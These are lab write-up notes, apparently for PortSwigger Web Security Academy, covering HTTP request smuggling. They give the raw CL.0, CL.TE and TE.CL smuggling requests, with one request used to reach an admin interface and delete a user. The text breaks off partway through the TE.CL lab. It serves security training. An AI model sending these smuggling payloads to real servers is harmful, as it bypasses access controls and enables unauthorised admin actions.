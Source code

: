 If the back-end server exhibits this behavior, but the front-end still uses the Content-Length header to determine where the request ends, you can potentially exploit this discrepancy for HTTP request smuggling. We've decided to call this a "CL.0" vulnerability.

### LAB: CL.0 request smuggling
First group this request with a normal request together:

    POST /resources/images/blog.svg HTTP/1.1
    Host: 0abd002404a5ba1480f3b72c00930008.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Connection: keep-alive

    GET /404abcxyz HTTP/1.1
    Foo: 

Send group (single connection) and observe that the second request got a `404 Not Found`. This indicates that the server ignores the CL header at `/resources/images/blog.svg` endpoint. Now change the smuggling request and send this group request to access the admin interface:

    POST /resources/images/blog.svg HTTP/1.1
    Host: 0abd002404a5ba1480f3b72c00930008.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Connection: keep-alive

    GET /admin HTTP/1.1
    Foo: 

Notice the `/admin/delete?username=carlos` endpoint to delete user Carlos. Use it in the smuggling request and send this group request to delete him.

### LAB: HTTP request smuggling, basic CL.TE vulnerability
Send this request:

    POST /post/comment HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked

    0

    G

The front-end is using the CL header to specify the body of the request. But at the back-end, it is using TE which decides that the body stop at `0\r\n\r\n`. Resend that POST request, this time the server is assuming the next request starts with `GPOST` which indeed returns this error:

    "Unrecognized method GPOST"

### LAB: HTTP request smuggling, basic TE.CL vulnerability
Send the `GET / HTTP/2` request to Repeater. Change request method and protocol and append this to the body:

    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5
